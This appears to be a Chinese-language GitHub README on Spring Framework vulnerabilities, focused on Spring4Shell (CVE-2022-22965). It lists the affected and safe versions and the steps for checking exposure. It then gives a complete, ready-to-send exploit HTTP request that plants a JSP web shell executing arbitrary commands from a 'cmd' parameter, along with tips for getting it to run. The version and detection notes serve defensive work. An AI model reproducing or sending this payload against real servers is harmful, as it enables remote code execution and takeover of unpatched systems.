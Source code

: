# SpringFramework-Vul
一些spring框架相关的漏洞

# Spring4Shell - CVE-2022-22965

- #### 影响版本

  ###### Springframework 5.3.0到5.3.17、5.2.0 到 5.2.19、以及更早的不受支持的版本

  ###### Springboot低版本由于间接引入受影响的SpringFramework，且也受到漏洞影响。

- #### 安全版本

  ###### 5.3.18+

  ###### 5.2.20+

- #### 排查方法

  ###### 1、检查lib目录或pom中的框架版本是否在漏洞版本中

  ###### 2、是否使用JDK9及以上版本

  ###### 3、使用tomcat作为Servlet容器，且打war包部署（Springboot用内置tomcat打jar不受影响）

- #### 漏洞利用

  ###### 命令执行（生产环境测试慎用）：

  ```html
  数据包如下（复制时候注意删除\r\n，试验环境写入webapps/ROOT不能执行jsp,因此换到webapps下其他目录）：
  
  POST /CVE-2022-22965/get HTTP/1.1
  Host: 192.168.1.5:8080
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 697
  suffix: %>//
  c: Runtime
  prefix: <%
  
  class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/123&class.module.classLoader.resources.context.parent.pipeline.first.prefix=12345&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
  ```
